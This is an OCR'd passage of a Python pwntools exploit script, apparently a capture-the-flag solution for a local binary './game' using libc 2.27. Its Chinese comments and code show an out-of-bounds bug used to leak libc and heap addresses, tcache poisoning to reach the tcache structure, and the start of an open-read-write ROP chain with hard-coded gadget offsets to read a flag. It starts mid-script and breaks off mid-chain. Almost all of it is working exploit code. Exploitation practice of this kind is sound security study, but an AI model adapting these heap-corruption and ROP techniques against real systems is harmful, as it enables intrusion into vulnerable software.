 ```python
    RUN( 'OP:' + '3' + '\n' + 'ID:' + str(ID) + '\n')
def show():
    RUN( 'OP:' + '4' + '\n')
def up(ID):
    RUN( 'OP:' + '5' + '\n' + 'ID:' + str(ID) + '\n')
def down(ID):
    RUN( 'OP:' + '6' + '\n' + 'ID:' + str(ID) + '\n')
def left(ID):
    RUN( 'OP:' + '7' + '\n' + 'ID:' + str(ID) + '\n')
def right(ID):
    RUN( 'OP:' + '8' + '\n' + 'ID:' + str(ID) + '\n')
def dbg():
    gdb.attach(p)
    pause()

p = process('./game')
elf = ELF("./game")
libc =ELF("libc-2.27.so")

# 利用越界泄露libc和堆地址
init(0x10,0x10)
create(6,0x3F0,'E4L4')
right(6)# 修改size
right(6)
for i in range(10):
    down(0x6)
create(0x99,0x3F0,'\x00'*0x1F8 + p64(0x201))
free(6)# 0x400的chunk
create(1,0x380,'\xA0')# 申请回来拿libc
show()
libc_base = u64(p.recvuntil('\x7F')[-6:].ljust(8,'\x00')) - libc.sym['__malloc_hook'] - 0x70- 0x500
log.info('LIBC:\t' + hex(libc_base))
create(9,0x10,'\xA0')# 申请回来拿libc
show()
p.recvuntil('9: (10,12) ')
heap_base = u64(p.recv(6).ljust(8,'\x00')) - 0xDA0  - 0x1400
log.info('HEAP:\t' + hex(heap_base))

# 修改fd申请tcache_struct（因为沙箱的原因需要我们恢复tcache结构）
free(0x99)# 0x400的chunk
create(2,0x230,'\x00'*0x38 + p64(0x401) + p64(heap_base + 0x10))

# orw
###################
pop_rdi_ret = libc_base + 0x000000000002155f
pop_rdx_ret = libc_base + 0x0000000000001b96
pop_rax_ret = libc_base + 0x0000000000043a78
pop_rsi_ret = libc_base + 0x0000000000023e8a
ret = libc_base + 0x00000000000008AA
Open = libc_base + libc.sym['open']
Read = libc_base + libc.sym['read']
Write = libc_base + libc.sym['write']
syscall = Read + 15
FLAG  = heap_base + 0x10 + 0xA0 + 0x10 + 0x88

orw  = p64(pop_rdi_ret) + p64(FLAG)
orw += p64(pop_rsi_ret) + p64(0)
orw += p64(pop_rax_ret) + p64(2)# open
orw += p64(syscall)
orw += p64(pop_rdi_ret) + p64(3)
orw += p64(pop_rsi_ret) + p64(heap_base  + 0x3000)
orw += p64(pop_rdx_ret) + p64(0x30)
orw += p64(Read)
```